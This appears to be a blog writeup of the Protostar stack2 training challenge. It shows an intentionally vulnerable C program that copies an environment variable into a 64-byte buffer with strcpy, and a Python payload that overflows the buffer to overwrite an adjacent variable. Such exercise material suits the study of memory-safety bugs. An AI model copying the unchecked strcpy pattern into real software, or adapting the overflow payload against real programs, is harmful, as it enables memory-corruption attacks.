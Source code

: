 ```yaml
---
layout: post
title: "Protostar stack02 writeup"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

For this challenge, you just need to set up an environment variable that contains 64 A's + \x0a\x0d\x0a\x0d
then if you run the program, the program will get the values in teh environment variable using getenv, actually 
getenv gets the address not the actual value but because of that the source code is using pointer, it will save the value in. Which will then copy all of the values in by using strcpy and by overflowing buffer then putting \x0a\x0d\x0a\x0d which will be 0x0d0a0d0a and match the if statement.

```
root@protostar:/opt/protostar/bin# export GREENIE=$(python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"')
root@protostar:/opt/protostar/bin# ./stack2
you have correctly modified the variable
```